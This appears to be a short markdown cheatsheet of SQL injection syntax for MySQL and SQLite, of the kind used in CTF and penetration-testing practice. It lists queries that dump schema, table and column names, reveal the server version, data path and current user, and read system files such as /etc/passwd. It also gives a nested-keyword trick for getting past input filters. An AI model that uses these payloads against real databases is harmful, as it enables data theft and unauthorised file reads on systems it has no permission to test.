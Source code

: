 SQL Injection Syntax Cheatsheet
=============

> John Hammond 


Leak all of the database names as a string
-----------------------------

```
SELECT GROUP_CONCAT( SCHEMA_NAME ) FROM INFORMATION_SCHEMA.SCHEMATA
```

Leak all of the tables in one database as a string
-----------

```
SELECT GROUP_CONCAT( TABLE_NAME ) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="<DATABASE_NAME>"
```


__TO DO THIS FOR SQLite:__

```
SELECT GROUP_CONCAT(name) FROM sqlite_master WHERE type='table'
```

Leak the column names of a table as a string
------------------

```
SELECT GROUP_CONCAT( COLUMN_NAME ) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME="<TABLE NAME>"
```

__TO LEAK THE WHOLE SCHEMA OF A TABLE IN SQLITE:__

```
SELECT GROUP_CONCAT(sql) FROM sqlite_master WHERE type='table'
```


Leak the ONE column from a table
------------------

```
SELECT GROUP_CONCAT( "<COLUMN_NAME>" ) FROM "<TABLE NAME>"
```

___IF THIS DOES NOT WORK, TRY WITHOUT THE QUOTES!!___


In-line Conditions (an if statement)
------------------

```
SELECT "value" CASE WHEN condition>0 THEN 'return this' ELSE 'return instead' END
```

This may be best used with timing attacks, like `SLEEP(1)` as the else condition action. Other option might be:

```
SELECT ( IF ( 1=1, "Condition successful!", "Condition errored!" ) )
```

Get the path of the running MySQL instance
------------------


```
SELECT @@datadir
```

Get the version of the running MySQL instance
------------------

```
SELECT @@version
```


Get current user
------------------


```
SELECT user();
```

```
SELECT system_user();
```

Read a file
------------------


```
SELECT LOAD_FILE("/etc/passwd");
```


Etcetera..
------

Some applications try to replace keywords with an empty string. If this is the case, try and trick it by placing the keyword inside of itself. This is devious! 

```
frfromom => from
oorr => or
loaload_filed_file => load_file
selselectect => select
```
